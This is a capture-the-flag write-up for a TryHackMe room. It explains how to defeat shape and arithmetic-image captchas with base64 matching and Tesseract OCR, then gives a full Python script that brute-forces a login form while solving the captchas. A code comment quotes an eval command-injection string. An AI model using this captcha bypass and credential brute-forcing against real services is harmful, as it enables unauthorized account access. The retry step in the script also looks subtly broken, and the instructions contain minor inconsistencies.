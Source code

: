 ```yaml
---
title: CTF tryhackme capturereturns
categories: [CTF, THM, Hard]
tags: [ftp, http, ssh, linux_privesc]
date: 2024-04-22 08:00 +0700
---
```


In this room, we'll see how to bypass 2 custom captcha systems using python

[https://tryhackme.com/r/room/capturereturns](https://tryhackme.com/r/room/capturereturns)

## Login form analysis
- we need to bypass a login form security mesures
- after a few failed login attempts, we get 2 types of captcha
- the first captcha system is choosing the right shape from an image
![](/assets/img/img_thm_ctf_capturereturns_1.png)
- the second captcha system is solving a mathematical operation written as in image
![](/assets/img/img_thm_ctf_capturereturns_2.png)
- after solving 3 captchas in a row, we can use the login form again
![](/assets/img/img_thm_ctf_capturereturns_3.png)
- after 3 failed login attempts, we have to solve the captchas again

## The shapes
- good news, the shapes are static (eg a circle will always have the same base64 value)
- which means, we can just store the 3 shape values (the img src value) in files and compare them to know what shape it is. Let's focus on the hard part, extracting the text from the mathematical operations
- since the shapes are statics, an easy way to differentiate them would be to extract 3 pieces of strings that are only in one of them.
- example for circle:
	- get a captcha with triangle shape, right click on it, open image in new tab, copy the url, paste it in a file "circle.txt". Do the same for the other shapes
	- copy a long enough string
	- `head -c 300 ./shapes/circle.txt`
	- verify that it isn't in the other shapes
	- `grep "PeZ7dZ5+Z93w+cz4zDbSDstRZGnqOljqKFbiOYwWu49T6Mtg8" ./shapes/triangle.txt`
	- `grep "PeZ7dZ5+Z93w+cz4zDbSDstRZGnqOljqKFbiOYwWu49T6Mtg8" ./shapes/square.txt`
	- store the string, then repeat for the other 2 shapes
- after this, we can build a list of dictionaries
```python
shapes_data = [
	{"answer": "circle", "unique": "PeZ7dZ5+Z93w+cz4zDbSDstRZGnqOljqKFbiOYwWu49T6Mtg8"},
	{"answer": "square", "unique": "TmpBGEDx7wKWoiS4ARtXYMMa3AwJsAQKXIMLcA92LoCGgrgCGhpsgfvu3IyveA"},
	{"answer": "triangle", "unique": "1icoweuEUzHY/IV/opz4Nc56C/vB39X5+C35OfoNH8d2/wWHa/fr"}
]
```

## Extracting text from an image
### Asking Llama 3 70b
- let's ask the question to a Llama 3 70b model
![](/assets/img/img_thm_ctf_capturereturns_4.png)
- alright! If that works we're golden. Let's first try with a local image
### POC, extracting text from image
- `pip install requests beautifulsoup4 pillow pytesseract`
- on kali linux, I had to also install those packages too
- `sudo apt install tesseract-ocr`
- `sudo apt install libtesseract-dev`
- first we generate a captcha with a mathematical operation -> right click on it -> open image as new Tab
- copy the base64 value after `base64,`
![](/assets/img/img_thm_ctf_capturereturns_5.png)
- since it's a proof of concept, I'll just pass the base64 string as parameter

```python
import base64
import requests
from bs4 import BeautifulSoup
from PIL import Image
import pytesseract

img_data = base64.b64decode("iVBORw0KGgoA[.....]")

# Save the image to a temporary file (required for OCR)
with open('temp.png', 'wb') as f:
    f.write(img_data)

image = Image.open('temp.png')
image = image.convert('L')  # Convert to grayscale

# Perform OCR using Tesseract
text = pytesseract.image_to_string(image)

print(text)  # Extracted text from the image
```

![](/assets/img/img_thm_ctf_capturereturns_6.png)
- it works! The hardest part is done, now let's just code the whole logic


## Final script
- Here's the final code, heavily commented


```python
#!/usr/bin/python  
import requests 
import re   
import base64
import urllib3
from bs4 import BeautifulSoup
from PIL import Image
import pytesseract
  
URL = "http://10.10.181.29/login"  
REQUEST_TIMEOUT = 0.2

# Initializing a session  
session = requests.Session()   
data = {'username': '','password':''}

# Removing the line feed (\n) from the usernames and passwords read from the respective files  
usernames = open('usernames.txt','r').read().splitlines()  
passwords = open('passwords.txt', 'r').read().splitlines()  
 
# "unique" is a string found only in the base64 value of the image shape "answer", and not the other 2
shapes_data = [
	{"answer": "circle", "unique": "PeZ7dZ5+Z93w+cz4zDbSDstRZGnqOljqKFbiOYwWu49T6Mtg8"},
	{"answer": "square", "unique": "TmpBGEDx7wKWoiS4ARtXYMMa3AwJsAQKXIMLcA92LoCGgrgCGhpsgfvu3IyveA"},
	{"answer": "triangle", "unique": "1icoweuEUzHY/IV/opz4Nc56C/vB39X5+C35OfoNH8d2/wWHa/fr"}
]

# Solve an operation from text eg " 5+ 3" -> "8"
# While it's not mandatory to use a regex here, it's important to filter text going in eval as it can execute any python code
#	cf eval("__import__('os').system('id')")
def solve_operation(text):  
	captcha_syntax = re.compile(r'(\s*\s*\d+\s*[+*-/]\s*\d+)\s*')  
	captcha = captcha_syntax.findall(text)  
	# We couldn't parse the operation, don't execute eval on an empty array, it will raise an error (should never happen since I filter the part after '=')
	if (len(captcha) == 0):
		print(f'Impossible to parse the operation {text}')
		return 'Error'
	else:
		return eval(' '.join(captcha))

# Send a post request until we don't get a timeout
def send_response(session, URL, data, timeout, type):
	response = None
	while True:
		try:
			response = session.post(URL, data=data, timeout=timeout)
		# Filter the many kind of errors related to Timeout
		except (requests.exceptions.ConnectionError, requests.exceptions.ReadTimeout, urllib3.exceptions.ReadTimeoutError, TimeoutError) as e:
			print(f'Timed out {type}') # Print the kind of requests we were doing
			continue
		break
	return response

for user in usernames:
	for password in passwords:
		# Try a login request with a user/pass couple
		data = {'username': user,'password': password}
		print(f'trying: {user}  {password}')
		response = send_response(session, URL, data, REQUEST_TIMEOUT, "login")

		# CAPTCHAs We need to solve 3 captchas before trying our login request
		if 'Detected 3 incorrect login attempts!' in response.text:
			while 'Detected 3 incorrect login attempts!' in response.text:
				soup = BeautifulSoup(response.content, 'html.parser')
				# Extract the base64 encoded image
				img_tag = soup.find('img')
				base64_img_data = img_tag['src'].split(',')[1]
				answer = ''

				# SHAPE SELECTION
				if 'Describe the shape below' in response.text:
					for row in shapes_data:
						# We found the unique string in the base64 value of the image, it's an "answer" shape
						if row["unique"] in base64_img_data:
							answer = row["answer"]
							break
					# We didn't find the shape (should never happen)
					if answer == '':
						print('Shape was not found!')
						print(base64_img_data)
						exit()
					data = {'captcha': answer}
					# Since we replaced the response content, we'll check if we still need to solve captchas in the while condition
					response = send_response(session, URL, data, REQUEST_TIMEOUT, "captcha shapes")

				# MATHEMATICAL OPERATION
				else:
					# Get convert the base64 image value to bytes
					img_data = base64.b64decode(base64_img_data)
					# Save the image to a temporary file (required for OCR -> Optical Character Recognition)
					with open('temp.png', 'wb') as f:
					    f.write(img_data)

					image = Image.open('temp.png')
					image = image.convert('L')  # Convert to grayscale

					# Perform OCR using Tesseract
					operation = pytesseract.image_to_string(image)
					# Get the text before '=', we only want the operation, not '=?'
					operation = operation.split('=')[0]
					answer = solve_operation(operation)
					if answer == '': # (should never happen)
						print('operation was not found!')
						print(base64_img_data)
						exit()
					# If we didn't solve the captcha, we send it noneless, we need a new captcha anyway (should never happen)
					data = {'captcha': answer}
					response = send_response(session, URL, data, REQUEST_TIMEOUT, "captcha operation")

			# Retry the login request now that we solved 3 captchas
			print(f'repeat: {user}  {password}')
			response = send_response(session, URL, data, REQUEST_TIMEOUT, "login")
		elif 'Error' not in response.text:
			print(f'SUCCESS: {user} --- {password}')
			exit()
```

![](/assets/img/img_thm_ctf_capturereturns_7.png)
